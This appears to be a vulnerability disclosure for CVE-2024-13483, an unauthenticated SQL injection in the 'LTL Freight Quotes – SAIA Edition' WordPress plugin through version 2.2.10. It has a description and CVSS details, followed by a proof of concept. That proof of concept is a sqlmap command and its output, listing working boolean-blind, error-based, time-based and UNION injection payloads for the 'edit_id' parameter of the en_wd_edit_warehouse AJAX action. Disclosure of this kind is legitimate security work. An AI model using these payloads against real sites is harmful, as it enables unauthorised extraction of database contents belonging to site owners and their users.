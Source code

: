 # CVE-2024-13483
LTL Freight Quotes – SAIA Edition <= 2.2.10 - Unauthenticated SQL Injection

# Description

The LTL Freight Quotes – SAIA Edition plugin for WordPress is vulnerable to SQL Injection via the 'edit_id' and 'dropship_edit_id' parameters in all versions up to, and including, 2.2.10 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: ltl-freight-quotes-saia-edition
- **Affected Version**: 2.2.10
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-13483
- **Status**: Active

POC
---

```
sqlmap.py -u 'http://kubernetes.docker.internal:8929/wp-admin/admin-ajax.php' --data='action=en_wd_edit_warehouse&edit_id=1&wp_nonce=13db5f2e7d' --level=2 --dbms='MySQL '

[*] starting @ 15:35:17 /2025-02-20/

[15:35:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: edit_id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND 8084=8084&wp_nonce=13db5f2e7d

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND GTID_SUBSET(CONCAT(0x7170787171,(SELECT (ELT(3874=3874,1))),0x717a627171),3874)&wp_nonce=13db5f2e7d

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND (SELECT 8170 FROM (SELECT(SLEEP(5)))Gvfy)&wp_nonce=13db5f2e7d

    Type: UNION query
    Title: Generic UNION query (NULL) - 20 columns
    Payload: action=en_wd_edit_warehouse&edit_id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170787171,0x6e57584a4f524f56504572467179796c6a6c6c527872646a73464444414144707067736542565243,0x717a627171),NULL,NULL,NULL,NULL,NULL-- -&wp_nonce=13db5f2e7d
---
[15:35:18] [INFO] testing MySQL
[15:35:18] [INFO] confirming MySQL
[15:35:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.21, Apache 2.4.59
back-end DBMS: MySQL >= 8.0.0

```
